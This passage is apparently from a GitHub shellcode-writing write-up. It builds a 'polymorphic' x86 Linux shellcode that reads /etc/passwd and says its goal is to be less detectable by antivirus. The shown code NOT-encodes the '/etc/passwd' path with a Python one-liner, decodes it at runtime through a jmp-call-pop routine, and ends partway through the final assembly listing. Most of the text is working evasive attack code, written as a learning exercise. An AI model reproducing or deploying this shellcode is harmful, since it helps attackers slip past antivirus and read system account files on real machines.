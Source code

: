 When EOF is reached, Exit syscall is executed

```asm
exit:
	mov	al, 1
	xor	ebx, ebx
	int	0x80
```


##### Polymorphic Shellcode 

As our goal is to do the shellcode polymorphic and more undetectable to the AVs. We started encoding the filename string with a simple *not encoder*.


Encode string with NOTs: 
```bash
$ echo -e 'import ctypes\nimport sys\nf="/etc/passwd"\nfor i in f:\n\tsys.stdout.write(hex(ctypes.c_uint8(~ord(i)).value)+",")\nsys.stdout.write("\\nLength: %s\\n"%len(f))' | python
0xd0,0x9a,0x8b,0x9c,0xd0,0x8f,0x9e,0x8c,0x8c,0x88,0x9b,
Length: 11
```

We still using the jump call pop technique, but we have to decode the filename.

```asm
	jmp	two
one:
	pop	ebx
	
	; Decode string
	mov 	cl, 11		; File path length
decode:
	not byte [ebx]
	inc ebx
	loop decode
	sub 	ebx, 11		; Restore the address string
...
two:
	call one
	.string db 0xd0,0x9a,0x8b,0x9c,0xd0,0x8f,0x9e,0x8c,0x8c,0x88,0x9b	; Encoded string with not
```

After we open the file, read and write, as it is a polymorphic shellcode I have changed some values that they were static and now it is being generated in runtime.

Final shellcode:

```asm
global _start


_start:
	xor	eax, eax
	mov	ebx, eax
	mov	ecx, eax
	mov	edx, eax
	jmp	two



one:
	pop	ebx
	
	; Decode string
	mov 	cl, 11		; File path length
decode:
	not byte [ebx]
	inc ebx
```